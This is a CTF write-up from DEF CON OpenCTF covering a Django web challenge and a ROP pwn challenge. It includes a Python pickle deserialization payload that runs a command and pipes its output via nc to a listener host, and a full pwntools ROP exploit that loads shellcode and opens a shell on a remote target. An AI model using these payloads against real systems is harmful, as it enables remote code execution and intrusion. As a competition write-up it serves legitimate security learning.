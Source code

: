 # OpenCTF

This year Shell Collecting Club showed up late, but strong to the DEF CON OpenCTF. We are under a time crunch for getting in these writeups. They will be revised a bit better later on. So we apologize for the brevity and lack of screen shots for the time being :)


## Solenya

### Web 300

When navigating to the supplied URL for the challenge, we were greeted with a really basic page that just had a JPG of Pickle Rick from Rick and Morty. There weren't any links that I can recall, so I tried to begin enumerating the server by hand to see if I could derive more information about the service.

I tried to go to *domain*/index.html to see what that would yield.

When doing so, I was greeted with a Django error page (Debug was set to True in the `setting.py` file!) that notified me that I had tried to navigate to a route that wasn't defined in `urls.py`. This error page also lets you know what the defined routes are.

There were 2 routes in particular that were interesting. The first was `/fingerprint/` and the second was `/wubbalubbadubdub/`.

In `/fingerprint/`, we were delivered a different Ricky and Morty image.

However, in `/wubbalubbadubdub/`, we were presented with a standard Django login page.

After trying for a bit to figure out what the creds might be, this attempt was abandoned and I started looking more at the web requests happening in the background.

I noticed a call to `/fingerprint/` with a large amount of POST data. This POST data was the output of javascript fingerprinting script that was being ran through `pickle.dumps` prior to being sent over, along with a `Token` HTTP header with the value `SSdtIFBpY2tsZSBSaWNrIQ==` (b64decode -> "I'm Pickle Rick!"). 

There were a bunch of references to Pickle Rick in this website, and python pickling is known to be dangerous. Therefore, it made sense that we could try to use this for our attack.

We assumed that the pickled POST data (literally called `pickle_data`), was unpickled on the `/fingerprint/` view.

So now, it was time to see if that worked.

I started a nc listener on my laptop (`nc -l -p 42069`) and sent some pickled data that would call `os.system` with some data piped into `nc`.

Due to the rush we were under, I didn't script up the entire payload delivery, but instead set a breakpoint in the JS debugger in the brower before the POST request was sent, and then modified the `pickle_data` variable to contain my generated payload.

Here was the test:

```import requests
import cPickle
import subprocess
import os

class Exploit(object):
    def __reduce__(self):
        return (os.system, ('{} | nc {} {}'.format('ls', '172.31.127.66', '42069'),),)

print cPickle.dumps(Exploit())
```

When I sent this data, I received the output of `ls` in my `nc` listener! We had RCE!

Now I just massaged the payload a bit, finding the flag in a file on the server.

You can read more about the badness of Python pickle [here](https://blog.nelhage.com/2011/03/exploiting-pickle/)


## babys_first_rop

# pwn

This was a pretty simple ROP challenge. 

From main, the binary calls a function that loads a bunch of data into a place labeled `gadgets` then calls a function called `vuln`.

This `vuln` function does a `read()` of 0x100 bytes into a buffer of size `0x50` creating an obvious overflow.

The stack was not executable.

The binary natively gave us a `pop rdi` gadget and a `pop rsi, r15` gadget.

Our method was to call `read()` again on the section of memory called `gadgets` (since it was executable), and load some shellcode there, finally returning to it.

The only thing we needed was a `pop rdx` gadget, which we were able to find using this:

```gdb-peda$ ropsearch "pop rdx" 
Searching for ROP gadget: 'pop rdx' in: binary ranges
0x0060118f : (b'5ac3')    pop rdx; ret
```

our final exploit is below:

```from pwn import *

#p = process(['./babys_first_rop'])
p = remote('172.31.2.62', 47802)
context.arch = 'amd64'

def pad_payload(payload, size):
    n = size - len(payload)
    payload += 'A' * n
    return payload

if __name__ == '__main__':
    ADDR_READ = 0x4004d0
    SHELLCODE = asm(shellcraft.amd64.linux.sh())
    print len(SHELLCODE)
    payload = 'A' * 0x50
    payload += 'whocares'
    payload += p64(0x400793) # pop rdi
    payload += p64(0)
    payload += p64(0x400791) # pop rsi, pop r15
    payload += p64(0x601080) # buf
    payload += 'AAAAAAAA'    # who cares
    payload += p64(0x60118f) # pop rdx
    payload += p64(0x64)     # shellcode len
    payload += p64(ADDR_READ)
    payload += p64(0x601080)
    p.sendline(pad_payload(payload, 0xff))
    p.sendline(SHELLCODE)
    p.interactive()
```

